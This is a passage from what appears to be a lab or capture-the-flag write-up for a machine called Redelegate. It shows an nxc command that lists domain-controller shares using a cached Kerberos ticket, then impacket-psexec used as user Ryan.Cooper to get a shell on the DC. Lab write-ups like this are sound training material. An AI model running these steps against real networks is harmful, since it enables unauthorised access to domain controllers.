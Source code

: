 ![image.png](/assets/images/Redelegate_VL/image%2037.png)

Now listing shares on the DC using the kerberos cache cause the ticket is loaded in memory.

```bash
nxc smb redelegate.vl --use-kcache --shares
```

![image.png](/assets/images/Redelegate_VL/image%2038.png)

Now lets just use impacket’s psexec to get on the box.

```bash
impacket-psexec -k -no-pass redelegate.vl/'Ryan.Cooper'@dc.redelegate.vl
```

![image.png](/assets/images/Redelegate_VL/image%2039.png)

